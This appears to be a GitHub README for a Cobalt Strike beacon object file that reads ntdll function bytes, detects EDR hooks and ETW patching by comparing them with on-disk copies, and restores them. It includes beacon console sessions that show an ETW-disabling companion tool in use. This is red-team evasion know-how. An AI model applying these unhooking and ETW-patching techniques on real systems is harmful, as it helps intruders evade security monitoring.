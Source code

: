 ## API Function Utility BOF

Beacon object file to:
	- Read bytes of loaded module API function
	- Read relevant on-disk DLL and compare functions to identify differencies (e.g. EPP/EDR hooking)
	- Patch functions with the on-disk copy (i.e. API unhooking)

Credit goes to @spottheplanet for the Dll parsing technique: https://www.ired.team/offensive-security/defense-evasion/retrieving-ntdll-syscall-stubs-at-run-time

## Compile

```
make all
```

## Usage

Aggressor script included with the following commands:
	- `read_function` - Output the first 8 bytes of the specified function(s) and output the bytes to the console.
	- `check_function` - Parse the on-disk DLL containing the specified function(s) and confirm the first 8 bytes match. 
	- `patch_function` - As above, but patching the loaded function(s) with the on-disk bytes.

All three utilities can take multiple functions within the same DLL (see `read_function` usage below, as an example)

> NOTE: `check_function` and `patch_function` will only read on-disk DLL once when multiple functions are specified.

### Read Function

```
beacon> read_function ntdll.dll NtCreateProcess
[*] Running API Function Utility (@ajpc500)
[+] host called home, sent: 5116 bytes
[+] received output:
[*] Reading 8 bytes of NtCreateProcess function in ntdll.dll
[+] received output:
b8 b3 0
0 0 ba 70 71


beacon> read_function ntdll.dll NtCreateProcess,NtCreateFile
[*] Running API Function Utility (@ajpc500)
[+] host called home, sent: 5129 bytes
[+] received output:
[*] Reading 8 bytes of NtCreateProcess function in ntdll.dll
[+] received output:
b8 b3 0
0 0 ba 70 71
[+] received output:
[*] Reading 8 bytes of NtCreateFile function in ntdll.dll
[+] received output:
b8 55 0
0 0 ba 70 71
```

### Check Function

Demonstrating with ETW BOF: https://github.com/ajpc500/BOFs/tree/main/ETW

```
beacon> check_function ntdll.dll EtwEventWrite
[*] Running API Function Utility (@ajpc500)
[+] host called home, sent: 5558 bytes
[+] received output:
[+] EtwEventWrite function matches on-disk.

beacon> etw stop
[*] Running ETW patching BOF (@ajpc500)
[+] host called home, sent: 1439 bytes
[+] received output:
Action: stop
Working with 64-bit.
[+] received output:
c3

beacon> check_function ntdll.dll EtwEventWrite
[*] Running API Function Utility (@ajpc500)
[+] host called home, sent: 4727 bytes
[+] received output:
[*] Comparing 8 bytes of EtwEventWrite function(s) in ntdll.dll with on-disk version
[+] received output:
[!] EtwEventWrite function doesn't match on-disk.
[+] received output:
Loaded Module: c3 8b dc 48 83 ec 58 4d
Ondisk Module: 4c 8b dc 48 83 ec 58 4d
```

### Patch Function
```
beacon> check_function ntdll.dll EtwEventWrite
[*] Running API Function Utility (@ajpc500)
[+] host called home, sent: 4727 bytes
[+] received output:
[*] Comparing 8 bytes of EtwEventWrite function(s) in ntdll.dll with on-disk version
[+] received output:
[!] EtwEventWrite function doesn't match on-disk.
[+] received output:
Loaded Module: c3 8b dc 48 83 ec 58 4d
Ondisk Module: 4c 8b dc 48 83 ec 58 4d

beacon> patch_function ntdll.dll EtwEventWrite
[*] Running API Function Utility (@ajpc500)
[+] host called home, sent: 5558 bytes
[+] received output:
[*] Patching 8 bytes of EtwEventWrite function in ntdll.dll with on-disk version
[+] received output:
[+] Patched EtwEventWrite function successfully.

beacon> check_function ntdll.dll EtwEventWrite
[*] Running API Function Utility (@ajpc500)
[+] host called home, sent: 4727 bytes
[+] received output:
[*] Comparing 8 bytes of EtwEventWrite function(s) in ntdll.dll with on-disk version
[+] received output:
[+] EtwEventWrite function matches on-disk.
```